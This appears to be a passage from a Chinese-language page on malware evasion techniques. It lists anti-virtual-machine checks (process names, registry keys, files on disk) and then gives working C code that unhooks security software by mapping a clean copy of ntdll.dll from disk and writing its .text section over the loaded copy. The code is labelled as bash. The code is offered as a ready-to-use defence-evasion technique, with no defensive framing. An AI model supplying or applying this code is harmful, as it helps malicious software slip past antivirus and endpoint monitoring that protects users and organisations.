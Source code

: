 
-   Anti VM：反虚拟机
    

-   检测进程名
    
-   检测注册表
    
-   检测磁盘中文件
    
    如图：
    
    ![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)
    
      
    
      
    

-   Unhook：从磁盘加载 ntdll
    

通过读取磁盘上 ntdll.dll 的.text 节，覆盖内存当中的 ntdll.dll 的.text 节，达到脱钩的效果

![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)

  

  

  

示例代码：

```bash
  HANDLE process = GetCurrentProcess();
  MODULEINFO mi = {};
  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

  GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

  PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

  for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
      DWORD oldProtection = 0;
      bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
      memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
      isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
    }
  }

  CloseHandle(process);
  CloseHandle(ntdllFile);
  CloseHandle(ntdllMapping);
  FreeLibrary(ntdllModule);
```